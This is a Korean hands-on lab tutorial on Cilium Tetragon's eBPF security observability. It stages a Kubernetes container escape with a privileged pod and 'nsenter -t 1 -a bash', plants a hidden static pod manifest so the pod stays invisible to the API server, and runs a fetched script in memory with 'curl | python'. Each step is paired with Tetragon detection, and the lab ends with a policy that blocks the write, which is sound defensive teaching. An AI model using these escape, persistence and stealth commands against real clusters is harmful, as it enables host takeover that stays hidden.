# Tetragon 실습

보안 관측가능성은 보안 사건이 발생했을 때 그 사건과 관련된 다양한 맥락을 파악하는 데 중점을 두는 개념이다. 
이는 리눅스 커널 기술인 eBPF를 활용함으로써 실현할 수 있다. eBPF는 보안팀, 데브옵스 팀, SRE, 클라우드 엔지니어, 솔루션 설계자 등에게 쿠버네티스 환경과 그 위에서 돌아가는 워크로드에 대한 실시간 관측가능성을 제공하여, 
프로덕션 환경을 효과적으로 보호하도록 돕는다.

- Cilium Tetragon : Cilium을 만든 오픈 소스 보안 관측가능성 및 런타임 적용(Runtime Enforcement)  툴
- 주요 기능 :  사용자가 제공하는 설정에 따라 커널의 특정 지점(hook points)에서 다양한 프로세스 및 네트워크 유형을 캡처
- 목표 : 캡처한 이벤트를 보안팀을 위한 실행 가능한 신호(actionable signnals)로 변환하는 것

Cilium Tetragon의 독립적인 운영
- 독립적인 프로젝트: Tetragon은 Cilium 프로젝트의 일부이지만, 작동하기 위해 Cilium이나 Hubble을 필요로 하지는 않는다.
- 실습 환경: Cilium을 사용하지 않는 쿠버네티스 클러스터에 Tetragon을 설치하고 사용하는 실습을 진행

# Tetragon 설치

```bash
# 클러스터 확인
kubectl get nodes

helm repo add cilium https://helm.cilium.io
helm repo update
helm install tetragon cilium/tetragon \
  -n kube-system -f tetragon.yaml --version 1.1.0
```

Tetragon은 데몬셋(Daemonset)으로 실행된다. 데몬셋은 쿠버네티스 클러스터의 모든 노드 또는 일부 노드에 파드(Pod)의 복사본을 실행하게 하는 쿠버네티스 컨트롤러이다.

주요 역할
- 보안 관측가능성 이벤트를 추출하기 위한 eBPF 로직을 구현한다.
- 이벤트 필터링 및 집계 기능을 수행한다.
- 외부 이벤트 수집기(collector)로 이벤트를 내보내는 역할을 한다.


Tetragon 데몬셋이 성공적으로 배포될 때까지 대기




## 네트워크 커넥션을 감지하기 위해 TracingPolicy을 추가

- TracingPolicy는 사용자가 설정할 수 있는 쿠버네티스 CRD(Custom Resource Definition)로,
커널의 임의 이벤트들을 추적하고, 해당 이벤트가 일치할 때 어떤 조치를 취할지 정의할 수 있게 해준다."
- 첫 번째 TracingPolicy는 네트워크 이벤트를 모니터링하고 네트워크 연결을 추적하는 데 사용될 것이다. 이 경우, TCP 연결이 열리고 닫히는 시점을 각각 추적하기 위해 `tcp_connect`와 `tcp_close` 같은 커널 함수들을 관찰할 것이다.

```bash 
kubectl apply -f networking.yaml
```


보안 관측가능성 이벤트를 검사시작
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
	tetra getevents -o compact
```




# 컨테이너 탈출 공격 탐지

공격과정
- 악용 : `privileged` 설정이 과도하게 허용된 파드(pod)를 이용한다. `nsenter` 명령어를 통해 모든 호스트 네임스페이스(host namespaces)로 침입할 것이다.
- 지속성 확보: `/etc/kubernetes/manifests` 디렉터리에 정적 파드(static pod) 매니페스트를 작성한다. 이렇게 하면 `kubelet`이 해당 파드를 실행하게 된다.
- 은밀성 확보: 존재하지 않는 쿠버네티스 네임스페이스를 정적 포드에 정의하는 쿠버네티스 버그를 이용한다. 이 버그로 인해 해당 포드는 쿠버네티스 API 서버에 보이지 않게 되며, kubectl 명령어로도 탐지할 수 없게 된다.
- 파일리스 공격: 보이지 않는 컨테이너를 실행하여 탈출을 지속시킨 후, 디스크를 건드리지 않고 메모리에서 악성 스크립트를 다운로드하여 실행할 것이다. 이 간단한 파이썬 스크립트는 기존의 사용자 공간(userspace) 도구로는 탐지하기 매우 어려운 파일리스(fileless) 악성코드를 나타낸다

## 컨테이너 탈출 공격 방법

가장 쉬운 컨테이너 탈출 방법은 포드 명세(pod spec)에 "privileged" 설정을 추가하여 포드를 실행하는 것이다.

privileged 플래그의 역할:
- 쿠버네티스는 기본적으로 이 설정을 허용한다.
- 이 플래그는 컨테이너에 모든 리눅스 기능(capabilities)과 호스트 네임스페이스에 대한 접근 권한을 부여한다.

hostPID 및 hostNetwork 플래그의 역할
- hostPID는 컨테이너가 호스트의 PID(프로세스 ID) 네임스페이스에서 실행되게 한다.
- hostNetwork는 컨테이너가 호스트의 네트워크 네임스페이스에서 실행되게 한다.
- 이로 인해 컨테이너는 노드에 있는 모든 프로세스 및 네트워크 자원과 직접 상호작용할 수 있게 된다.


관측가능성 이벤트 검사시작한다.
- 특히 공격이 수행될 `sith-infiltrator`라는 파드와 관련된 이벤트를 집중적으로 찾는다

```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon \
  -- tetra getevents -o compact --pods sith-infiltrator
```


privileged 파드 명세를 적용
```bash
kubectl apply -f sith-infiltrator.yaml
```





## sith-infiltrator의 보안 관측가능성 이벤트
터미널 1에서 `sith-infiltrator` 컨테이너가 시작되는 것을 식별할 수 있다. 
이 컨테이너는 기본 쿠버네티스 네임스페이스에서 시작되며, Cilium Tetragon이 생성한 `process_exec` 및 `process_exit` 이벤트들을 통해 이를 확인할 수 있다.




`/docker-entrypoint.sh` 셸 스크립트가 진입점(entry point)으로 사용되어 nginx 데몬을 시작하는 것을 확인



nginx 데몬의 기본 설정 파일이 수정된 것을 볼 수 있다.


`privileged` 플래그가 `true`로 설정되었기 때문에, 해당 파드는 모든 리눅스 기능(capabilities)을 얻게 되었다.
예를 들어, 각 보안 관측가능성 이벤트의 끝에 `CAP_SYS_ADMIN`이 출력된다.
`CAP_SYS_ADMIN`은 root 접근 권한과 유사한 매우 높은 권한 수준을 부여한다.

이 권한은 mount(2), umount(2), pivot_root(2), sethostname(2), setdomainname(2), setns(2), unshare(2) 등 다양한 시스템 관리 작업을 수행할 수 있게 해준다.

## 권한 상승을 관측하기 위해 TracingPolicy 추가하기
권한 상승(privilege escalation)을 탐지하기 위해 두 번째 `TracingPolicy`를 적용해야 한다.
- 이 TracingPolicy는 sys-setns 시스템 호출을 모니터링할 것이다.
- `sys-setns`는 프로세스가 커널 네임스페이스를 변경할 때 사용하는 시스템 호출


sys-setns.yaml
```bash
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "sys-setns"
spec:
  kprobes:
  - call: "sys_setns"
    syscall: true
    args:
    - index: 0
      type: "int"
    - index: 1
      type: "int"
```

```bash
kubectl apply -f sys-setns.yaml
```



## 권한상승
sith-infiltrator의 쉘에 진입해보자. 
```bash
kubectl exec -it sith-infiltrator -- /bin/bash
```

아래와 같이 `process_exec` 이벤트를 관측할 수 있다. 



`nsenter` 명령어를 사용해 호스트의 네임스페이스로 진입하고, 호스트에서 root 권한으로 bash를 실행
```bash
nsenter -t 1 -a bash
```

`nsenter` 명령어는 지정된 네임스페이스에서 명령어를 실행하는 데 사용된다.

- `-t` 플래그: 명령어가 실행될 대상 네임스페이스를 정의한다.
- `PID 1`: 모든 리눅스 머신은 항상 호스트 네임스페이스에서 실행되는 PID 1을 가진 프로세스를 실행한다.
- `-a` 플래그: cgroup, ipc, uts, net, pid, mnt, time과 같은 모든 리눅스 네임스페이스에 진입할 것을 의미한다.

따라서 이 명령어를 통해 컨테이너에서 가능한 모든 방법으로 탈출하여, 호스트에서 root 권한으로 bash 명령어를 실행하게 된다.


아래와 같이 두 개의 `process_exec` 이벤트와 일곱 개의 `process_kprobe` 이벤트를 관찰하여 이 컨테이너 탈출을 식별할 수 있다.
`process_kprobe` 이벤트는 커널 네임스페이스가 변경될 때마다 호출된 `sys-setns` 시스템 호출을 관찰한 결과다. 이는 우리가 cgroup, ipc, uts, net, pid, mnt, time 호스트 네임스페이스에 어떻게 진입했는지를 보여준다.

두 번째 process_exec 이벤트를 관찰함으로써, 부모 프로세스가 nsenter인 상태에서 호스트 네임스페이스에서 bash가 실행된 것을 탐지할 수 있다.

`🚀 process default/sith-infiltrator /bin/bash 🛑 CAP_SYS_ADMIN`라는 이벤트는 sith-infiltrator라는 포드에서 /bin/bash가 실행되었으며, 이 때 CAP_SYS_ADMIN 권한을 가지고 있음을 보여준다.


`nsenter` 명령이 실제 커널에서 어떻게 작동하여 컨테이너 탈출을 가능하게 하는지를 Cilium Tetragon이 정확히 탐지했음을 의미한다


# Foothold 유지 및 지속성 확보

두번째 단계로 노드에 Foothold와 지속성을 만들 수 있다. 이미 노드 자원에 대한 무제한 접근 권한을 확보했기 때문에 
맞춤형의 숨겨진 파드 스펙을 만들어 눈에 보이지 않는 파드를 실행할 수 있다. 
이는 컨테이너 탈출에 성공한 공격자가 탐지되지 않도록 시스템 내에서 은밀하게 자신의 존재를 유지하는 방법을 설명한다. 

## Tracing Policies

TracingPolicy의 정의:

사용자가 설정할 수 있는 쿠버네티스 CRD(Custom Resource Definition)이다.

이를 통해 커널의 임의의 이벤트를 추적하고, 해당 이벤트가 일치할 경우 취할 조치를 정의할 수 있다.

TracingPolicy의 특징:

쿠버네티스 아이덴티티 인식(Kubernetes Identity Aware): 포드가 준비(Ready) 상태에 도달한 후에는 임의의 커널 이벤트와 시스템 호출에 대해 강제 조치를 적용할 수 있다.

동적 업데이트: 컨테이너 런타임에는 필요하지만 애플리케이션 런타임에는 제한되어야 하는 시스템 호출을 방지할 수 있다.

애플리케이션 또는 노드 재시작 불필요: TracingPolicy에 변경 사항을 적용하면 커널의 eBPF 프로그램이 동적으로 업데이트되므로, 애플리케이션이나 노드를 재시작할 필요가 없다.

탐지 및 대응:

TracingPolicy에 의해 이벤트가 트리거되고 해당 시그니처가 감지되면, 두 가지 조치를 취할 수 있다.

보안 분석가에게 알림을 보낼 수 있다.

해당 프로세스에 SIGKILL 시그널을 보내 동작을 방지(prevent)할 수 있다.


## 보이지 않는 파드 생성 탐지를 위해 TracingPolicy추가

보이지 않는 포드(invisible Pod) 생성을 탐지하기 위해 세 번째 `TracingPolicy`를 적용해야 한다.

이 TracingPolicy는 민감한 파일에 대한 읽기 및 쓰기 접근을 모니터링하는 데 사용될 것이다.

특히 /etc/kubernetes/manifests 디렉터리에 있는 파일들에 대해 실행되는 __x64_sys_write와 __x64_sys_read 시스템 호출을 관찰할 것이다.


```bash
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "file-write-etc-kubernetes-manifests"
spec:
  podSelector:
    matchLabels:
     org: empire
  options:
  - name: "disable-kprobe-multi"
    value: "1"
  kprobes:
  - call: "security_file_permission"
    syscall: false
    args:
    - index: 0
      type: "file" # (struct file *) used for getting the path
    - index: 1
      type: "int" # 0x04 is MAY_READ, 0x02 is MAY_WRITE
    selectors:
    - matchArgs:      
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
```

```bash
kubectl apply -f sys-write-etc-kubernetes-manifests.yaml
```




## 보이지 않는 파드 생성하기

아래 명령어로 이전에 했던 것처럼 생성되는 보안 가시성 이벤트들을 모니터링
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
```

다른 터미널에서 아래 명령어 실행
```bash
kubectl exec -it sith-infiltrator -- /bin/bash
```

다시 노드에 진입
```bash
nsenter -t 1 -a bash

```

노드 자원에 대한 무제한 접근 권한을 확보했으므로, 이제 `/etc/kubernetes/manifests` 디렉터리로 이동하여 기존 내용을 확인
```bash
cd /etc/kubernetes/manifests/
ls -la
```

그리고나서 커스텀 히든 파드를 생성한다.
```bash
cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
```

확인 차원에서, `crictl ps` 명령어를 실행하여 `hack-latest`라는 새 컨테이너가 노드에서 실행 중인지 확인해 보자. 
hack-latest 컨테이너가 나타나기까지 몇 초 걸릴 수 있음

```bash
crictl ps
```



## 보안 관측가능성 이벤트

위에서 커스텀 히든 파드를 `kubelet`의 디렉터리에 작성하였다. 
세번째 터미널에서 커스텀 히든파드가 쿠버네티스 API 서버에 보이지 않는지 확인해본다. 

```bash
kubectl get pods --all-namespaces
```



hack-latest 컨테이너가 출력 결과에 보이지 않는다는 점에 주목한다.

하지만 Cilium Tetragon을 통해 식별가능하다.
Cilium Tetragon의 보안 관측가능성 이벤트를 모니터링함으로써, 다음의 process_exec와 process_kprobe 이벤트를 통해 `/usr/bin/cat`을 이용한 `hack-latest.yaml` 파일 쓰기를 탐지하여 `지속성(persistence)`을 조기에 식별할 수 있다.



이제 실제로 보이지 않는 컨테이너를 실행하여 탈출을 지속시키는 데 성공했으므로, 디스크에 전혀 닿지 않는 악성 스크립트를 메모리에서 다운로드하고 실행할 수 있다

# 메모리에서 악성 파이썬 스크립트 실행
숨겨진 컨테이너를 실행하여 탈출을 지속시키는데 성공하였다. 이제 디스크에 전혀 닿지 않는 악성 스크립트를 메모리에서 다운로드하고 실행할 수 있다.
이를 위해서
- 간단한 파이썬 스크립트를 파일리스(fileless) 악성코드로 사용할 것이다.
- 이러한 유형의 악성코드는 전통적인 사용자 공간(userspace) 도구로는 탐지하기가 거의 불가능하다.


## 페이로드 실행

첫번째 터미널
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
```

세번째 터미널
```bash
kubectl exec -it sith-infiltrator -- /bin/bash
nsenter -t 1 -a bash
CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
```

```bash
crictl exec -it $CONT_ID /bin/bash
```




첫번째 터미널의 로그에서 첫 번째 process_exec 이벤트는 컨테이너 ID를 가진 컨테이너 안에서 bash가 실행된 것을 보여준다. 
이 컨테이너는 바로 눈에 보이지 않던 hack-latest 컨테이너이다.
- 주의사항: 링 버퍼(ringbuffer) 또는 지연(latency) 문제로 인해 특정 로그 메시지가 나타나기까지 약간의 시간이 걸릴 수 있다는 점에 유의





두번째 터미널에서는 Cilium Tetragon으로부터 수신하는 보안 관측가능성 이벤트를 세밀하게 조정하기 위해,
curl 또는 python 프로세스 이름과 일치하는 이벤트들만 모니터링하기 시작할 것이다.
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --processes curl,python
```

세번째 터미널에서 malicious 파이썬 스크립트를 다운로드하고 메모리상에서 실행한다. 
```bash
curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
```

## 보안 관측가능성 이벤트 
공격의 최종 움직임을 추적하자. 

`process_exec` 이벤트가 나타났다. 이 이벤트는 curl 명령어가`https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py`라는 인자와 함께 실행된 것을 보여준다.
curl 명령어는 민감한 정보(malicious script)를 다운로드하는 데 사용된 것으로 추정



curl을 통해 열린 민감한 소켓 연결을 식별할 수 있다. 이 연결은 목적지 IP 185.199.110.133과 포트 443을 사용한다.
- connect 이벤트는 curl이 10.244.0.6:40914에서 185.199.108.133:443으로 TCP 연결을 시도했음을 보여준다.
- close 이벤트는 해당 TCP 연결이 종료되었음을 보여준다.
두 이벤트 모두 `CAP_SYS_ADMIN` 권한을 가지고 실행되었음이 표시되어 있다.




악성 파이썬 스크립트 실행 완료 탐지
process_exit 이벤트들은 메모리에서 실행된 악성 파이썬 스크립트가 종료 코드 0과 함께 성공적으로 실행되었음을 보여준다.




# 보안 정책 적용 (Enforcing Security Policies)
커널에서 보안 이벤트를 직접 관찰하고 보고하는 것은 훌륭하지만 이벤트가 발생하는 즉시 실제로 이를 `방지(prevent)`하는 것도 가능한가?


## 파일 모니터링 적용

공격자가 노드의 `/etc/kubernetes/manifests` 디렉터리에 `hack-latest.yaml` 파일을 작성했을 때 문제가 발생했다는 점은 매우 중요하다.
Cilium Tetragon의 `TracingPolicy`를 사용하면 이러한 행위를 탐지하고, 한 발 더 나아가 방지할 수 있다.

`sys-write-etc-kubernetes-manifests.yaml` 매니페스트에 
`Override` 액션을 추가하여 민감한 파일에 대한 쓰기 접근을 실패하게 만드는 방법을 보여준다.

이로써 공격자가 숨겨진 포드를 생성하는 것을 원천적으로 차단할 수 있다.

우리가 추가하는 `matchActions`는 `Sigkill`, `Override`, `Signal` 등 다양한 액션을 지정할 수 있는데, 여기서는 함수 반환 인자를 재정의하는 `Override`를 사용한다.

- `Sigkill` : 해당 프로세스를 즉시 종료
- `Override` : 함수 반환 인자를 재정의하여 함수 실행 결과를 변경
- `Signal` : 프로세스에 특정 시그널을 보냄
- `GetUrl` : 지정된 URL로 GET 요청을 보냄

```bash
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "file-write-etc-kubernetes-manifests"
spec:
  podSelector:
    matchLabels:
     org: empire
  options:
  - name: "disable-kprobe-multi"
    value: "1"
  kprobes:
  - call: "security_file_permission"
    syscall: false
    args:
    - index: 0
      type: "file" # (struct file *) used for getting the path
    - index: 1
      type: "int" # 0x04 is MAY_READ, 0x02 is MAY_WRITE
    selectors:
    - matchArgs:      
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
      matchActions:
        - action: Override
          argError: -1
```



```bash
kubectl apply -f sys-write-etc-kubernetes-manifests.yaml
```

## 관측

터미널 1

```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator
```

터미널 2

```bash
kubectl exec -it sith-infiltrator -- /bin/bash
nsenter -t 1 -a bash
cd /etc/kubernetes/manifests/
ls -la
```
Cilium Tetragon의 보안 정책 적용이 실제 공격 행위를 어떻게 차단했는지 확인


- `ls -la` 명령의 반환 상태: `ls -la` 명령이 `2`라는 상태 코드로 반환되었음을 확인한다. 이는 일반적으로 명령 실행이 실패했음을 의미한다.
